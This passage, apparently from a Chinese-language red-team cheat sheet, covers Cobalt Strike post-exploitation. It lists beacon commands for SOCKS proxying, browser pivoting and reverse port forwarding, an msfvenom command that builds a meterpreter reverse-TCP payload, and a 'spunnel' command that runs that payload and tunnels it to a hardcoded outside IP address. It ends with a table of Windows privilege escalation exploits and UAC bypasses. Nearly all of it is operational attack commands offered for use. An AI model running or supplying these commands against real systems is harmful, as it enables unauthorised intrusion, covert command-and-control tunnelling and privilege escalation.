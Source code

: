 * 使用 `link` 连接到SMB信标
* 使用 `connect` 连接到TCP信标

---

## VPN和跳转点

:警告: 隐蔽VPN在W10上不工作，并且需要管理员权限才能部署。

> 使用socks 8080在端口8080上设置SOCKS4a代理服务器（或您选择的其他端口）。这将设置一个SOCKS代理服务器，通过信标隧道传输流量。信标的睡眠时间会增加通过它隧道传输的任何流量的延迟。使用sleep 0使信标几秒钟检查一次。

```powershell
# 在给定端口上启动一个SOCKS服务器，通过指定的信标隧道传输流量。在/etc/proxychains.conf中设置teamserver/端口配置，以便于使用。
beacon > socks [端口]
beacon > socks [端口]
beacon > socks [端口] [socks4]
beacon > socks [端口] [socks5]
beacon > socks [端口] [socks5] [enableNoAuth|disableNoAuth] [用户名] [密码]
beacon > socks [端口] [socks5] [enableNoAuth|disableNoAuth] [用户名] [密码] [enableLogging|disableLogging]

# 通过指定的Internet Explorer进程代理浏览器流量。
beacon > browserpivot [pid] [x86|x64]

# 绑定到信标主机上的指定端口，并将任何传入连接转发到转发的主机和端口。
beacon > rportfwd [绑定端口] [转发主机] [转发端口]

# spunnel：生成代理并创建到其控制器的反向端口转发隧道。 ~= rportfwd + shspawn。
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f raw -o /tmp/msf.bin
beacon> spunnel x64 184.105.181.155 4444 C:\Payloads\msf.bin

# spunnel_local：生成代理并创建反向端口转发，通过您的Cobalt Strike客户端隧道传输到其控制器，然后您可以在MSF多处理器上处理回调。
beacon> spunnel_local x64 127.0.0.1 4444 C:\Payloads\msf.bin
```

---

## 工具包

* [Cobalt Strike社区工具包](https://cobalt-strike.github.io/community_kit/) - 社区工具包是由用户社区编写的扩展集合，用于扩展Cobalt Strike的功能

---

### 提升工具包

UAC 令牌复制：在 Windows 10 Red Stone 5（2018年10月）中修复

```powershell
beacon> runasadmin

信标命令提升器
=========================

    利用                         描述
    -------                         -----------
    ms14-058                        跟踪弹出菜单 Win32k 空指针解引用（CVE-2014-4113）
    ms15-051                        Windows ClientCopyImage Win32k 利用（CVE 2015-1701）
    ms16-016                        mrxdav.sys WebDav 本地权限提升（CVE 2016-0051）
    svc-exe                         通过作为服务运行的可执行文件获取 SYSTEM
    uac-schtasks                    使用 schtasks.exe（通过 SilentCleanup）绕过 UAC
    uac-token-duplication           使用令牌复制绕过 UAC
```
